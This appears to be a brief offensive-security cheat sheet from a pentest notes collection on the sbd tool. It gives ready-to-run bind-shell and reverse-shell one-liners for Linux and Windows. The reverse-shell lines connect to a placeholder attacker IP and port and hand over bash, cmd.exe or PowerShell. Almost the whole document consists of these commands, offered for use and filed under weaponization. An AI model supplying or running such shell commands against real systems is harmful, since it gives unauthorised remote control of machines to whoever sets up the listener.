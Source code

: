 # SBD

## 01 - Linux

### 1.1 - Bind Shell

```
$ sbd -lvnp <target_PORT> -e /bin/bash
```

### 1.2 - Reverse Shell

```
$ sbd <attacker_IP> <attacker_PORT> -e /bin/bash
```

## 02 - Windows

### 2.1 - Bind Shell

```
C:\> sbd -lvnp <target_PORT> -e cmd.exe

C:\> sbd -lvnp <target_PORT> -e powershell.exe
```

### 2.2 - Reverse Shell

```
C:\> sbd <attacker_IP> <attacker_PORT> -e cmd.exe

C:\> sbd <attacker_IP> <attacker_PORT> -e powershell.exe
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Callback Shells/Shell Handler/Cross Platform/Manual/SBD|Shell Handler: SBD]]